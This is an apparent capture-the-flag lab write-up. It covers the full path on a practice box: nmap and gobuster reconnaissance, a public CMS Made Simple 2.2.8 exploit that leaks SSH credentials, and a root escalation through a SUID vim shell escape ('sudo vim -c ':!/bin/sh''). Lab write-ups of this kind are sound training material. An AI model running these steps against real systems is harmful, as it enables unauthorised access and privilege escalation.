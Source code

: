 export ip=10.10.21.245

# tool - nmap: 
 - sudo nmap -sS $ip
    - open ports 21, 80, 2222
 - nmap -sV -sC -oN nmap.log $ip
    - port 21 is running vsftpd 3.0.3 which might be exploitable

# tool - gobuster
 - gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip
    - detected files which includes robots.txt, and dir /simple 

# website - exploit db
    - found exploit for vsftpd 3.0.3: https://www.exploit-db.com/exploits/49719
    - found exploit for cms made simple verion 2.2.8: https://www.exploit-db.com/exploits/46635

# process
 - open the webpage as http is running
 - opened the url ip/simple, /simple dir was found using gobuster
 - this url had a cms installed. the name:version was given in the footer. (CMS Made Simple version 2.2.8)
 - run the python exploit file against the cms url
 - this gives the email(admin@admin.com), username(mitch) and password(secret) for the cms
 - this username and password can be tried with the ssh considering ssh is running on port 2222
    - `ssh mitch@$ip -p2222` lets you login with the passwordn `secret`
 - After logging in, typing in `ls` will show a txt file which contains the answer to a question in the ctf
 - There is another user in the home dir which is an answer to a question as well.
 - Checking for suid files, we get vim is among them. We can leverage vim to create a rooted shell.
    - `find / -perm -u=s -type f 2>/dev/null` - to get files with suid set
    - `sudo vim -c ':!/bin/sh'` - to get root
 - After getting root, goto /root where you can see another txt file with the last answer in the CTF.
